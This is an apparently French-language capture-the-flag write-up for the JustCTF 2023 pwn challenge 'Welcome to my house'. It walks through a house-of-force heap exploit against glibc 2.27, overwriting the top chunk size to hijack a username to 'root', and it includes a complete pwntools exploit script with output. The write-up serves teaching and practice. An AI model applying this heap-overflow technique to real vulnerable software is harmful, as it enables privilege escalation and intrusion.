 ```yaml
---
title: JustCTF 2023 - Welcome to my house
date: 2024-02-11
tags: heap exploitation, house of force
category: pwn
---
```


# Découverte du challenge

file
```bash
› file house_patched                 
house_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=efb671ee78fcd896b0e79a07aa8cb08817475d31, not stripped
```

checksec
```
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

ldd
```
› ldd house_patched
	linux-vdso.so.1 (0x000078f5573e8000)
	libc.so.6 => ./libc.so.6 (0x000078f556c00000)
	./ld-2.27.so => /usr/lib64/ld-linux-x86-64.so.2 (0x000078f5573ea000)
```

glibc version
```
libc 2.27
```


En lancant le challenge on a la possibilité de faire : 
- Créer un utilisateur
- Lire le flag

```
[!]	Welcome in my house!	[!]

Actual user: admin

1. Create user
2. Read flag
3. Exit
```

On ne peut lire le flag seulement si on est l'utilisateur root, ici nous sommes admin.

```
>>  2

[-] You have to be root to read flag!
```

La commande "Create user" va faire : 
- Demander un nom d'utilisateur
- Demander un mot de passe
- Demander une taille de disque ??

En reversant cette méthode, on comprend que le programme alloue des chunks pour chaque variable qu'il va nous demander.   

Une partie intéressante ici : on contrôle la taille du chunk qui va être alloué pour l'espace disque.
De plus, le contenu de "password" est copié vers un chunk de taille 0x18 à la suite du chunk pour notre espace mémoire.
Pour finir, plusieurs heap overflow sont possibles. 

```c
int64_t create_user(){
	void* fsbase
    int64_t rax = *(fsbase + 0x28)
    printf("Enter username: ")
    int64_t ptr_username = malloc(0x19)
	__isoc99_scanf(&data_400c29, ptr_username)
    putchar(0xa)
    strcpy(malloc(0x18), ptr_username)
    printf("Enter password: ")
    int64_t ptr_password = malloc(0x18)
    __isoc99_scanf(&data_400c29, ptr_password)
    putchar(0xa)
    printf("Enter disk space: ")
    putchar(0xa)
    int64_t var_30
    __isoc99_scanf(&data_400c50, &var_30)
    malloc(var_30)
    int64_t rax_12 = malloc(0x18)
    strcpy(rax_12, ptr_password, rax_12)
    int64_t rax_15 = rax ^ *(fsbase + 0x28)
    if (rax_15 != 0)
	    rax_15 = __stack_chk_fail()
    return rax_15
}
```

**Idée** : Est ce qu'on pourrait utiliser la technique house of force pour écraser le top chunk, combler le vide qu'il y a entre notre position sur la heap et notre target, puis écraser le contenu de la target par "root" ?

Alors c'est partie !

Pour commencer, on utiliser le heap overflow pour écraser le top chunk et y placer la taille maximum (0xFFFFFFFFFFFFFFFF)

```pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000251	........Q.......
...
0x603250	0x0000000000000000	0x0000000000000021	........!.......
0x603260	0x0000006e696d6461	0x0000000000000000	admin...........
0x603270	0x0000000000000000	0x0000000000000031	........1.......
0x603280	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603290	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x6032a0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA	 <-- Top chunk
```

Ensuite, on calcule la distance qui sépare notre notre variable target avec notre position actuelle dans la heap.
Notre binaire n'étant pas PIE, on trouve les adresses grâce à GDB.

```python
target = 0x603250
heap = 0x603300

def delta(x,y):
    return (0xffffffffffffffff - x) + y
dist = delta(heap, target+16)
```

Maintenant, on construit notre payload: 
- On remplit les userdata du chunk avec des données junk, puis on écrase le TOP CHUNK avec un très grand nombre (cela nous permettera de faire de très grosses allocations).
- La variable password doit être à 'root' car elle sera copié par la suite dans notre target
- Comme taille pour l'espace disque, on calcule la distance qu'il y a entre notre position dans la heap et notre target.

```python
create_user(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
read_flag()
```

## Output

```bash
› python xpl.py
[+] Starting local process './house_patched': pid 602233
[*] Target: 0x603250
[*] Heap: 0x603300
[*] Dist: 0xffffffffffffff5f
FLAG{f4k3_fl4g_f0r_t3st1ng}

[*] Stopped process './house_patched' (pid 602233)
```

et voila !

## Full exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './house_patched'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# create user
def cu(username, password, size):
    io.sendlineafter(b">>  ", b"1")
    io.sendlineafter(b"username:", username)
    io.sendlineafter(b"password:", password)
    io.sendlineafter(b"space:", str(size).encode())

# read flag
def rf():
    io.sendlineafter(b">>  ", b"2")
    io.recvline()
    print(io.recvline().decode())

def delta(x,y):
    return (0xffffffffffffffff - x) + y

gdbscript = '''
b create_user
'''.format(**locals())

target = 0x603250
heap = 0x603300
dist= delta(heap, target+16)

io = start()

info(f"Target: {hex(target)}")
info(f"Heap: {hex(heap)}")
info(f"Dist: {hex(dist)}")

cu(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
rf()
```

